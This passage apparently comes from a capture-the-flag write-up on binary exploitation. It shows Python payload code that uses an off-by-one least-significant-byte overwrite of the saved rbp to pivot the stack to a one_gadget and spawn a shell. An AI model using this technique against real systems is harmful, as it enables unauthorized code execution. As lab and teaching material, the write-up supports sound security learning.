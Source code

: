 ![one_gadgets.png](images/one_gadgets.png)

  - Step 2: Pass one_gadget to spawn shell

In the second input, the offset is still the same (1024 bytes without null byte terminate). We will use the same technique as above (LSB) to pivot stack to our one_gadget. Our second payload as following:
```
LSB2 = 0x38
inp_str2 = b'A'*1000
inp_str2 += b'BBBBBBBB'
inp_str2 += p64(one_gadget_addr)
inp_str2 = inp_str2.ljust(1024, b'P')
inp_str2 = inp_str2.replace(b'\x00', p8(LSB2))

delim2 = p8(LSB2)
```
I chose `LSB2=0x38` because at second input, saved rbp change LSB address from 0xf0 to 0x38.

![rbp_0x38.png](images/rbp_0x38.png)
